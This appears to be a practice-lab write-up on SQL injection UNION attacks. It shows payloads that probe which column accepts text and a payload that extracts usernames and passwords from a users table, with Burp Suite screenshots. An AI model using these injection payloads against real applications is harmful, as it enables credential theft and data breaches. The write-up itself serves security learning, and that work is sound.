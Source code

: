 ### Lab: Finding a column containing text

- Usually the data to be retrieved will be in string form (such as usernames and password hashes)

- By using the **UNION SELECT NULL** with the number of columns determined, we can swap out one of the **NULL **values with a string to test it

- If an error is returned, then it’s not a string value

<br/>

**SQL Query (assuming there are 4 columns)**


```sql
' UNION SELECT 'a', NULL, NULL, NULL--
' UNION SELECT NULL, 'a', NULL, NULL--
' UNION SELECT NULL, NULL, 'a', NULL--
' UNION SELECT NULL, NULL, NULL, 'a'--
```

<br/>

<br/>

![b60f2fd2_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/9a2b8a48-0274-4928-904b-ba75c29a3d33)

- Determining the column which uses the string data type

<br/>

### Lab: Retrieving data from other tables

- Prerequisite: Determining the table names

- **Query Injected**:


```sql
' UNION SELECT username, password FROM users--
```

<br/>

As a result, the data can be extracted from other tables such as the `**username**`** **and `**password**`** **columns from the `**users**` table in this case.

<br/>

![fbbcb5d6_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/415e6241-9a14-4ad5-b9ae-f68203762ea0)

- Results in **Burp Suite**

<br/>

<br/>

![d6445f3f_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/fd6e7315-7a8a-46a9-b023-d4233f396d8a)

- **Results in the web application**
